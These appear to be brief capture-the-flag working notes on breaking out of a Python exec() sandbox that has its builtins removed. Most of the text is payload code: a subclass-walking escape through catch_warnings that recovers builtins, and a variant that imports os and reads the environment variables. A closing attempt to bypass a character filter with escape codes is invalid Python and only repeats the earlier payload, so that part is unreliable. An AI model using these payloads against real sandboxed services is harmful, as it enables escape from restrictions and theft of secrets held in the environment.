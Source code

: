 ## Escapes exec without builtins

this works:
```
exec('bs = [c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__; bs["print"]("1")', {'__builtins__': None}, {})
```

or in style of this challenge:
```
ingredient = a
measurements = [c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__.__import__("os").environ
```

__now we need to escape [, (, . etc..__

unicode?
```
table = {
  '[': \x5B,
  '(': \x28,
  '.': \x2E,
  '_': \x5F,
}
```

new string:

```
exec('bs = [c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__; bs["print"]("1")', {'__builtins__': None}, {})
```
